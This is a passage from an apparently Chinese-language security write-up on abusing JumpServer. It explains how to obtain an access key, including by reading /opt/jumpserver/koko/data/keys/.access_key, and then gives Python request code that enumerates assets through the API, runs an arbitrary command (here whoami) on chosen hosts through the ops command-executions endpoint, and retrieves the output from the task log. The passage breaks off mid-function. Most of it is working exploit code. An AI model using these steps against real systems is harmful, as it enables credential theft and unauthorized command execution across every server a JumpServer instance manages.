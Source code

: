会给你一个access key

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/3/2990e6fc-d0bf-45ed-8075-09c1d14da007.png?raw=true)

或者也可以直接通过读取`/opt/jumpserver/koko/data/keys/.access_key`文件来获取`accesskey`。  

有了`access key`后，就可以通过jumpserver的API进行利用，下面是通过jumpserver ops运维接口执行命令。

1.  首先通过`/api/v1/assets/assets/?offset=0&limit=15&display=1&draw=1` 接口找到想要执行命令的主机
    

`def get_assets_assets(jms_url, auth):  
    url = jms_url + '/api/v1/assets/assets/?offset=0&limit=15&display=1&draw=1'  
    gmt_form = '%a, %d %b %Y %H:%M:%S GMT'  
    headers = {  
        'Accept': 'application/json',  
        'X-JMS-ORG': '00000000-0000-0000-0000-000000000002',  
        'Date': datetime.datetime.utcnow().strftime(gmt_form)  
    }

    response = requests.get(url, auth=auth, headers=headers)  
    print(response.text)

`

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/3/4df52be2-8a83-4f85-a524-1402ffca2803.png?raw=true)

这里需要记住主机的资产ID，和admin_user的内容。  

2.  然后利用`api/v1/ops/command-executions`接口对指定主机执行命令
    

代码如下，修改data中的主机和run\_as内容为第一步找到的id和admin\_user，command为需要执行的命令。

`def get_ops_command_executions(jms_url, auth):  
    url = jms_url + '/api/v1/ops/command-executions/'  
    gmt_form = '%a, %d %b %Y %H:%M:%S GMT'  
    headers = {  
        'Accept': 'application/json',  
        'X-JMS-ORG': '00000000-0000-0000-0000-000000000002',  
        'Date': datetime.datetime.utcnow().strftime(gmt_form)  
    }

    data = {"hosts":["fdfafb91-7b0a-425a-b250-56599bfc761b"],"run_as":"973320fd-6f06-4f59-8758-8ee52b6f7283","command":"whoami"}

    response = requests.post(url, auth=auth, headers=headers, data=data)  
    print(response.text)

`

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/3/3f3271c9-28db-4d1e-9c4c-b257cae54427.png?raw=true)

3.  访问log_url，获取命令执行的结果。
    

`def get_task_log(jms_url, auth):  
    url = jms_url + '/api/v1/ops/celery/task/e70ce2ab-1831-46d0-a4d1-ecc968dce298/log/'  
    gmt_form = '%a, %d %b %Y %H:%M:%S GMT'  
    headers = {  
        'Accept': 'application/json',  
        'X-JMS-ORG': '00000000-0000-0000-0000-000000000002',  
        'Date': datetime.datetime.utcnow().strftime(gmt_form)  
    }
